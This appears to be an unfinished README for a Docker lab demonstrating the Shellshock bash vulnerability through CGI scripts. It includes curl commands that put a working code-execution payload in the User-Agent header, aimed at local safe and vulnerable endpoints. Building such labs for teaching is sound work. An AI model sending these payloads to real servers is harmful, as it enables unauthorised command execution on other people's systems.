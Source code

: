 # TITLE OF VULN
## Subtitle / what it does
Shellshock (CVE-2014-6271) is a vulnerability in bash shell and allows code execution when declaring new environment variable.
CGI extensions utilize bash and are available remotely on web server.
As CGIs create environment variables from user-supplied data, malicious HTTP header might cause code execution.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 2-shellshock
docker-compose build
docker-compose up -d
```

### Safe endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/safe.cgi
```

### Vulnerable endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/victim.cgi
```


### Explanation
This happens costam

### References and recommended reading
https://en.wikipedia.org/wiki/Common_Gateway_Interface
https://en.wikipedia.org/wiki/Shellshock_(software_bug)
https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/bash/shellshock
